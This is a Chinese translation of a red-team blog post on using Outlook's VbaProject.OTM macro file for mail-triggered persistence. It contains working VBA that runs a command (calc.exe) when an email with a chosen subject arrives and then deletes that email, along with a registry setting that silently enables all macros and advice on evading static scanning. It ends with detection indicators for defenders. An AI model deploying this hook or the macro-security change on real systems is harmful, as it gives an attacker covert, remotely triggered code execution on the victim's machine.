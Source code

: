 > 原文链接: https://www.anquanke.com//post/id/223632 


# 利用Outlook创建基于邮件的持久化后门


                                阅读量   
                                **187248**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Dominic Chell，文章来源：mdsec.co.uk
                                <br>原文地址：[https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/﻿](https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t01fc5844ec4da66a34.png)](https://p0.ssl.qhimg.com/t01fc5844ec4da66a34.png)



## 简介

我们一直对研究未被广泛记录并可能在蓝队的雷达下优雅飞行的新技术感兴趣。去年，我们发布了一个由[三部分组成](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/)的有关持久化的系列文章，今天，在本文中，我们将重新讨论这个主题，概述我们最近在Outlook中探索的持久化技术，到目前为止，许多攻防对抗的“蓝队”都没有注意到这种技术。

基于Outlook持久化的主题在过去已经涉及了多次，包括[Dave Hartley](https://labs.f-secure.com/archive/malicous-outlook-rules/)和[Nick Landers](https://silentbreaksecurity.com/malicious-outlook-rules/)的先前工作，他们详细介绍了如何使用Outlook的规则来持久化。

但是，在本文中，我们将重点介绍使用Outlook的`VbsProject.OTM`文件来达到相似结果的另一种实现。 尽管此技术尚未得到很好的普及（至少据我们所知），但[Cobalt Kitty](//www.cybereason.com/hubfs/Cybereason%20Labs%20Analysis%20Operation%20Cobalt%20Kitty-Part1.pdf)已将其用作命令和控制通道。



## 分析

与大多数Microsoft Office产品套件一样，Outlook可以启用`developer`选项卡，并通过VB编辑创建基于VBA的宏。打开编辑器并创建一个简单的宏，你会发现一个名为“ThisOutlookSession”的Outlook特定模块:

[![](https://p1.ssl.qhimg.com/t01df1e47cdeb369f4f.png)](https://p1.ssl.qhimg.com/t01df1e47cdeb369f4f.png)

保存此宏将导致会在`％APPDATA％\Roaming\Microsoft\Outlook`目录中创建`VbaProject.OTM`文件：

[![](https://p1.ssl.qhimg.com/t01d3e7558e48b0e72d.png)](https://p1.ssl.qhimg.com/t01d3e7558e48b0e72d.png)

但是，尝试以默认配置执行宏将失败，默认配置为“数字签名宏的通知，所有其他宏均已禁用”。

但是，我们可以通过使用以下值创建安全性注册表项来修改此配置：

[![](https://p2.ssl.qhimg.com/t01d9b91ccbe1041344.png)](https://p2.ssl.qhimg.com/t01d9b91ccbe1041344.png)

Level值定义了宏安全配置，其值如下:

```
4 = Disable all macros without notification
3 = Notifications for digitally signed macros, all other macros disabled
2 = Notifications for all macros
1 = Enable all Macros
```

要允许宏以隐蔽方式运行而不会通知用户，你可能需要设置“Level”值以在操作期间启用所有宏。

通过检查`VbaProject.OTM`文件，我们发现它是标准的Microsoft复合文档文件（CDF）：

```
dmc@deathstar ~  ✗ file ~/VbaProject.OTM
VbaProject.OTM: Composite Document File V2 Document, Cannot read section info
```

使用`oledump.py`进行的进一步分析显示了其中包含宏代码的OLE流：

```
dmc@deathstar ~  ✗ python oledump.py ~/VbaProject.OTM
  1:        43 'OutlookProjectData'
  2:       388 'OutlookVbaData/PROJECT'
  3:        59 'OutlookVbaData/PROJECTwm'
  4: M    6156 'OutlookVbaData/VBA/ThisOutlookSession'
  5:      2663 'OutlookVbaData/VBA/_VBA_PROJECT'
  6:       497 'OutlookVbaData/VBA/dir'
```

至此，我们已经知道`VbaProject.OTM`是启用了OLE宏的标准文档，因此创建，混淆，清除和重载这些文件的传统工具和技术仍然适用。当你在将其拖放到磁盘上时，你可能需要确保其在对抗静态扫描时能够安全。

让我们来探讨一下我们如何才能将这种持久性武器化。



## 武器化

为了使VBA代码执行变得有意义，需要将代码作为事件的结果执行。`ThisOutlookSession`模块允许你订阅Outlook中的许多不同事件，这提供了获得代码执行的各种不同机会。

对于持久性的用例，有趣事件的潜在选项可能包括由用户驱动的事件，如Outlook打开，或者由操作人员自行决定的事件，如特定邮件送达。对于这个武器化的例子，我们将着重于后者，并说明如何根据带有特定主题的邮件执行任意的VBA。

为了确认何时收到新邮件，我们可以通过在Outlook启动时首先订阅默认收件箱的事件来实现，可以使用以下方法：首先在默认收件箱文件夹(olInboxItems)中设置变量，同时在其中注册事件：

```
Option Explicit
Private WithEvents olInboxItems As Items
Private Sub Application_Startup()
    Set olInboxItems = Session.GetDefaultFolder(olFolderInbox).Items
End Sub
```

然后，使用对用户收件箱的引用，我们可以使用“[ItemAdd](https://docs.microsoft.com/en-us/office/vba/api/outlook.items.itemadd)”回调函数在收到新邮件时接收事件：

```
Private Sub olInboxItems_ItemAdd(ByVal Item As Object)
End Sub
```

具体来说，我们只对传入的电子邮件感兴趣，因此我们需要优化回调，使其仅可以通过新的邮件来触发。我们可以通过验证项目以确保在其类型为“[MailItem](https://docs.microsoft.com/en-us/office/vba/api/outlook.mailitem)”时来做到这一点：

```
Private Sub olInboxItems_ItemAdd(ByVal Item As Object)  
    If TypeOf Item Is MailItem Then
        MsgBox "You have mail"
    End If
End Sub
```

当然，我们不想对每一封邮件都执行，所以我们可以使用任何我们喜欢的标准来过滤收到的邮件，电子邮件地址，主题，正文内容等等。让我们扩展代码，以便在带有特定主题(MailItem.Subject)的邮件时执行指定代码，然后在使用`MailItem`完成代码执行后删除电子邮件。删除方法:

```
Private Sub olInboxItems_ItemAdd(ByVal Item As Object)
    On Error Resume Next
    Dim olMailItem As MailItem
    If TypeOf Item Is MailItem Then
       If InStr(olMailItem.Subject, "MDSec") &gt; 0 Then
            MsgBox "Hack The Planet"
            olMailItem.Delete
        End If
    End If
    Set Item = Nothing
    Set olMailItem = Nothing
End Sub
```

然后我们来尝试弹出一个计算器：

```
Option Explicit

Private WithEvents olInboxItems As Items

Private Sub Application_Startup()
    Set olInboxItems = Session.GetDefaultFolder(olFolderInbox).Items
End Sub

Private Sub olInboxItems_ItemAdd(ByVal Item As Object)
    On Error Resume Next
    Dim olMailItem As MailItem
    If TypeOf Item Is MailItem Then
       If InStr(olMailItem.Subject, "MDSec") &gt; 0 Then
            MsgBox "Hack The Planet"
            Shell "calc.exe"
            olMailItem.Delete
        End If
    End If
    Set Item = Nothing
    Set olMailItem = Nothing
End Sub
```

[![](https://p2.ssl.qhimg.com/t01d6a38dba98794d0c.gif)](https://p2.ssl.qhimg.com/t01d6a38dba98794d0c.gif)

弹出calc很酷，但是还可以更好地利用武器生成一个信标，这部分留给读者练习：

[![](https://p1.ssl.qhimg.com/t01d9f7a4a1a233a904.gif)](https://p1.ssl.qhimg.com/t01d9f7a4a1a233a904.gif)



## 对此技术的检测

从终端的角度检测这种技术可以通过两个关键指标来实现:

> 1.监视`％APPDATA％\Roaming\Microsoft\Outlook\VbaProject.OTM`文件的创建/修改事件（Sysmon事件ID 11）。
2.监视`HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security`密钥和值级别的创建/更改事件（Sysmon事件ID 12）。
